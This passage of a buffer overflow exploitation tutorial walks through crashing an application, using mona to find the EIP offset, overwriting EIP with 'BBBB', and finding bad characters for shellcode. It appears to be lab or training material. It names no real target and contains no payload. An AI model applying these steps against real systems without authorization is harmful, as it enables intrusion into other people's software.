 ```
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Re-run the exploit, the application should crash. To find the exact offset of the crash use :

```
!mona findmsp -distance <SIZE>
```

Size is the **same** as the one used to create the pattern. The result should be something like :

```
EIP contains normal pattern : ... (offset XXXX)
```

Get the offset, modify in exploit.py:

- The **offset** variable by the offset
- The **retn** variable by "BBBB"
- Remove the **payload** variable

```
offset = <OFFSET>
overflow = "A" * offset
retn = "BBBB"
payload = ""
```

Re-run exploit.py, EIP should be equal to **42424242** (hex value of "BBBB"). You now control EIP !

------

### Finding bad characters

Certain byte characters can cause issues in the development of exploits. We must run every byte through the program to see if any characters cause issues. By default, the null byte (**\x00**) is always considered a bad character as it will truncate shellcode when executed.

We will send bad characters recursively and analyze if they need to be removed. Let generate the list of bad characters with mona :

```
!mona bytearray -b "\x00"
```

Copy the results in the variable **payload**. And re-run exploit.py, the application should crash. Now to found those bad characters use this command :

```
!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
```

If **BadChars** are found, we need to exclude them as well.

```
!mona bytearray -b "\x00 + <BAD_CHARS>"

# Example
!mona bytearray -b "\x00\x01\x02\x03"
```
